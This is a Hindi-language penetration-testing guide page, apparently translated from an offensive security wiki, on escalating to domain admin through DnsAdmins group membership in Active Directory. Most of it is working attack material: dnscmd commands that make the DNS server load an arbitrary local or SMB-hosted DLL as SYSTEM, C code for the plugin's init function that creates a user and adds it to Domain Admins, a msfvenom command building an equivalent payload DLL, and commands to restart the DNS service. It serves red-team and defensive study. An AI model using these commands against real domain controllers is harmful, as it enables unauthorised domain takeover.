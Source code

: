 [IPPSEC के साथ डेमो वीडियो](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s)

## DnsAdmins

**DNSAdmins** समूह के सदस्य या **DNS** सर्वर ऑब्जेक्ट पर **लेखन अधिकार** रखने वाले उपयोगकर्ता **SYSTEM** अधिकारों के साथ एक **विचित्र DLL** लोड कर सकते हैं।\
यह बहुत दिलचस्प है क्योंकि **Domain Controllers** को अक्सर **DNS सर्वर** के रूप में उपयोग किया जाता है।

जैसा कि इस \*\*\*\* [**पोस्ट**](https://adsecurity.org/?p=4064) में दिखाया गया है, जब DNS एक डोमेन कंट्रोलर पर चलाया जाता है (जो बहुत सामान्य है), तो निम्नलिखित हमला किया जा सकता है:

* DNS प्रबंधन RPC के माध्यम से किया जाता है
* [**ServerLevelPluginDll**](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) हमें एक कस्टम **DLL** को **लोड** करने की अनुमति देता है, DLL के पथ की **कोई सत्यापन** नहीं की जाती है। इसे कमांड लाइन से `dnscmd` टूल के साथ किया जा सकता है
* जब **`DnsAdmins`** समूह का सदस्य **`dnscmd`** निम्नलिखित कमांड चलाता है, तो `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` रजिस्ट्री कुंजी पूरी होती है
* जब **DNS सेवा पुनः चालू** होती है, तो इस पथ में दिए गए **DLL** को **लोड** किया जाएगा (अर्थात्, एक नेटवर्क शेयर जिसमें डोमेन कंट्रोलर के मशीन खाते तक पहुंच हो सकती है)
* एक हमलावर एक **कस्टम DLL लोड करके एक रिवर्स शेल प्राप्त** कर सकता है या यहां तक कि क्रेडेंशियल्स डंप करने के लिए Mimikatz जैसा एक उपकरण भी लोड कर सकता है।

समूह के **सदस्य** प्राप्त करें:
```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```
### किसी भी DLL को निष्पादित करें

फिर, यदि आपके पास **DNSAdmins समूह** में एक उपयोगकर्ता है, तो आप **DNS सर्वर को SYSTEM विशेषाधिकारों के साथ किसी भी DLL को लोड करने** के लिए बना सकते हैं (DNS सेवा `NT AUTHORITY\SYSTEM` के रूप में चलती है)। आप DNS सर्वर को लोड करने के लिए एक **स्थानीय या दूरस्थ** (SMB द्वारा साझा किया गया) DLL फ़ाइल को निष्पादित कर सकते हैं:
```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```
एक मान्य DLL का उदाहरण [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL) में मिल सकता है। मैं `DnsPluginInitialize` फ़ंक्शन के कोड को इस तरह से बदलना चाहूंगा:
```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```
या आप msfvenom का उपयोग करके एक DLL उत्पन्न कर सकते हैं:
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```
तो, जब **DNS सेवा** शुरू या पुनरारंभ होती है, एक नया उपयोगकर्ता बनाया जाएगा।

DNSAdmin समूह में एक उपयोगकर्ता होने के बावजूद आप **डीएनएस सेवा को रोकने और पुनरारंभ करने के लिए डिफ़ॉल्ट रूप से नहीं कर सकते हैं।** लेकिन आप हमेशा कोशिश कर सकते हैं:
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
[**इस विशेषाधिकार वृद्धि के बारे में और अधिक जानें ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
